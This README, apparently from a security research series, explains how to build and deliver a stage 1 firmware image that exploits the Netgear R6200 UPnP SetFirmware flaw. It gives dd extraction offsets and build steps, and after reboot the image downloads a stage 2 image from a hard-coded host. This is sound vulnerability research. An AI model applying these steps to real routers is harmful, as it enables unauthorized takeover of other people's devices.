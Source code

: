 ##Broken, Abandoned, and Forgotten Code, Part 13

This code corresponds with [part 13](http://shadow-file.blogspot.com) of the Broken, Abandoned, and Forgotten Code series. In this part we build a stage 1 firmware image that will circumvent the Netgear R6200 UPnP daemon's broken update code and, after rebooting, will download and flash a stage 2 image.

A build system to create the stage 1 firmware image can be found in exploit-src. However, there are a few pieces I didn't include due to licensing.

* Kernel image
* Root filesystem
* mtd writing utility from OpenWRT (GPL licensed)

You can extract the filesystem and kernel from a stock firmware image. I used and tested the Netgear firmware R6200-V1.0.0.28_1.0.24.chk:

    $ md5sum R6200-V1.0.0.28_1.0.24.chk
    0bbb9004c8cddf2d9602719c34c9e33e  R6200-V1.0.0.28_1.0.24.chk

Identify the offsets and sizes of the kernel and filesystem components using binwalk, and then extract them using `dd`:

     $ dd if=R6200-V1.0.0.28_1.0.24.chk of=squashfs.bin skip=1328446 bs=1
     $ dd if=R6200-V1.0.0.28_1.0.24.chk of=kernel-lzma.bin skip=86 bs=1 count=1328360

Put ``kernel-lzma.bin`` into exploit-src/.

Then, you'll need to generate a minimized root filesytem directory as described in [part 11](http://shadow-file.blogspot.com/2015/07/abandoned-part-11.html).

Tar up your minimized root filesystem, and put ``rootfs.tar.gz`` in exploit-src/stage1/src/.

The mtd writer is responsible for flashing the stage 2 firmware image. I have modified this utility from OpenWRT to work with this project. Check out the source and put it in place:

    $ git clone https://github.com/zcutlip/mtdwriter.git
    $ tar zcvf broken_abandoned/part_13/exploit-src/stage1/src/mtdwriter.tar.gz mtdwriter/

You'll also need a little endian MIPS gcc toolchain. Ensure ``mipsel-linux-gcc`` and friends are in your ``$PATH``.

With the missing pieces in place, you can build the stage 1 firmware:

    $ cd exploit-src/
    $ ./buildmips.sh

With this update, assuming you've generated a working, minimized firmware, you should be able to exploit the SetFirmware vulnerability, and flash your firmware image to the router:

``./setfirmware.py <stage_1_firmware.bin>``

Upon rebooting, the stage 1 firmware will attempt to download the second stage from ``http://10.12.34.56:8080/stage2mtd.bin``
